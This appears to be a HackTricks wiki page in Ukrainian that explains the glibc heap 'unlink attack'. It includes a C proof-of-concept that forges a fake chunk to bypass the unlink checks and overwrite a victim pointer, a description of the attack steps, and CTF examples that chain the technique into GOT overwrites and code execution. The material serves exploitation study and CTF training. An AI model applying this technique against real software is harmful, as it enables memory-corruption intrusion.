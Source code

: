# Unlink Attack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Основна інформація

Коли ця атака була виявлена, вона в основному дозволяла WWW (Write What Where), однак, деякі **перевірки були додані**, що зробило нову версію атаки більш цікавою, більш складною та **недійсною**.

### Приклад коду:

<details>

<summary>Code</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Атака не працює, якщо використовуються tcaches (після 2.26)

### Мета

Ця атака дозволяє **змінити вказівник на шматок, щоб він вказував на 3 адреси перед собою**. Якщо це нове місце (околиці, де знаходився вказівник) містить цікаві дані, такі як інші контрольовані алокації / стек..., можна їх прочитати/перезаписати, щоб завдати більшої шкоди.

* Якщо цей вказівник знаходився в стеку, оскільки тепер він вказує на 3 адреси перед собою, і користувач потенційно може його прочитати та змінити, буде можливим витік чутливої інформації зі стеку або навіть змінити адресу повернення (можливо), не торкаючись канарки.
* У прикладах CTF цей вказівник знаходиться в масиві вказівників на інші алокації, тому, зробивши його вказівником на 3 адреси перед собою і маючи можливість читати та писати, можна змусити інші вказівники вказувати на інші адреси.\
Оскільки користувач також може читати/писати інші алокації, він може витікати інформацію або перезаписувати нові адреси в довільних місцях (наприклад, у GOT).

### Вимоги

* Деякий контроль у пам'яті (наприклад, стек), щоб створити кілька шматків, надаючи значення деяким атрибутам.
* Витік стеку для налаштування вказівників фейкового шматка.

### Атака

* Є кілька шматків (chunk1 і chunk2)
* Атакуючий контролює вміст chunk1 і заголовки chunk2.
* У chunk1 атакуючий створює структуру фейкового шматка:
* Щоб обійти захист, він переконується, що поле `size` правильне, щоб уникнути помилки: `corrupted size vs. prev_size while consolidating`
* і поля `fd` та `bk` фейкового шматка вказують на те, де зберігається вказівник chunk1 з офсетами -3 і -2 відповідно, так що `fake_chunk->fd->bk` і `fake_chunk->bk->fd` вказують на позицію в пам'яті (стек), де знаходиться реальна адреса chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Заголовки chunk2 модифікуються, щоб вказати, що попередній шматок не використовується і що розмір є розміром фейкового шматка.
* Коли другий шматок звільняється, цей фейковий шматок відключається, відбувається:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Раніше було зроблено так, що `fake_chunk->fd->bk` і `fake_chunk->bk->fd` вказують на те саме місце (місце в стеку, де зберігався `chunk1`, тому це був дійсний зв'язаний список). Оскільки **обидва вказують на те саме місце**, лише останній (`fake_chunk->bk->fd = fake_chunk->fd`) матиме **ефект**.
* Це **перезапише вказівник на chunk1 у стеку на адресу (або байти), збережені на 3 адреси перед у стеку**.
* Отже, якщо атакуючий знову зможе контролювати вміст chunk1, він зможе **писати всередині стеку**, потенційно перезаписуючи адресу повернення, пропускаючи канарку, і змінюючи значення та вказівники локальних змінних. Навіть знову змінюючи адресу chunk1, збережену в стеку, на інше місце, де, якщо атакуючий знову зможе контролювати вміст chunk1, він зможе писати куди завгодно.
* Зверніть увагу, що це було можливим, оскільки **адреси зберігаються в стеку**. Ризик і експлуатація можуть залежати від **того, де зберігаються адреси фейкового шматка**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Посилання

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Хоча було б дивно знайти атаку unlink навіть у CTF, тут ви маєте кілька звітів, де ця атака була використана:
* Приклад CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* У цьому прикладі, замість стеку є масив адрес, виділених malloc. Атака unlink виконується, щоб мати можливість виділити шматок тут, отже, контролюючи вказівники масиву адрес, виділених malloc. Потім є ще одна функціональність, яка дозволяє змінювати вміст шматків у цих адресах, що дозволяє вказувати адреси на GOT, змінювати адреси функцій для отримання витоків і RCE.
* Ще один приклад CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Як і в попередньому прикладі, є масив адрес алокацій. Можна виконати атаку unlink, щоб зробити адресу до першої алокації вказувати на кілька позицій перед початком масиву і перезаписати цю алокацію в новій позиції. Отже, можна перезаписати вказівники інших алокацій, щоб вказувати на GOT функції atoi, вивести її, щоб отримати витік libc, а потім перезаписати GOT atoi адресою до одного гаджета.
* Приклад CTF з кастомними функціями malloc і free, які зловживають вразливістю, дуже схожою на атаку unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Є переповнення, яке дозволяє контролювати вказівники FD і BK кастомного malloc, які будуть (кастомно) звільнені. Більше того, купа має біт виконання, тому можна витікати адресу купи і вказувати функцію з GOT на шматок купи з shellcode для виконання.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
